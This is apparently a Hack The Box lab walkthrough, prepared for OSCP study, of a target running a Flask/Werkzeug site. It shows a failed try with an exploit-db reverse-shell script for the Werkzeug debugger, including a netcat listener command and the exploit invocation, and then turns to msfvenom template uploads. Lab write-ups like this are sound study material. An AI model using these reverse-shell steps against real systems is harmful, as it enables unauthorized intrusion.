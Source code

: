 Kewl webpage on 5000:
![[Pasted image 20210502211016.png]]

# Exploitation
## WerkZeug
!! Failed WerkZeug Exploitation Attempts
Werkzeug stands out - did some recon and found the following articles/references:
Werkzeug httpd 0.16.1
https://snyk.io/vuln/pip:werkzeug
https://www.exploit-db.com/exploits/43905

I'm trying to avoid using metasploit, as it is not allowed to be used during the OSCP exam, but we'll keep this in our back-pocket just in case. [Article from Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/werkzeug_debug_rce/)

Using the [exploit-db article](https://www.exploit-db.com/exploits/43905) I've downloaded the exploit to my attacking machine. From preliminary code review it looks like this is going to create a reverse shell for us. Started up my listener, executed the python script against the target:

```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# nc -lvnp 8888                           
listening on [any] 8888 ...
```

```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# python exploit.py 10.10.10.226 5000 10.10.14.3 8888                                              255 ⨯
[-] Debug is not enabled
```

Reviewing the script we see this information, might be barking up the wrong tree.
> if "Werkzeug " not in response.text: print "[-] Debug is not enabled" sys.exit(-1)

Excerpts from ['Flask RCE Debug Mode'](http://ghostlulz.com/flask-rce-debug-mode/):
>Werkzeug is a web server gateway interface (WSGI) web application library which Flask heavily relies on. A WSGI is a calling convention for web servers to forward requests to web applications or frameworks written in the Python programming language.

Excerpts from ['Hacking Flask Applications'](https://medium.com/swlh/hacking-flask-applications-939eae4bffed):

>Sometimes, you can also access the debugger console by navigating to the path “_/console_”, if it is set as a general-purpose path for the debugger.

## MSFVenom Templates
With this information we move on to other avenues. Re-review of the site, re-review of what these inputs are performing / executing. Generated some windows payloads, noted that linux always errors out, confirmed that Android payloads generate. Nmap scan isn't accepting any additional flags/input, searchsploit input doesn't necessarily have any flags that will get us anywhere (query of a 3rd party). Template upload really seems like the only file upload method we have, so we start digging into that.
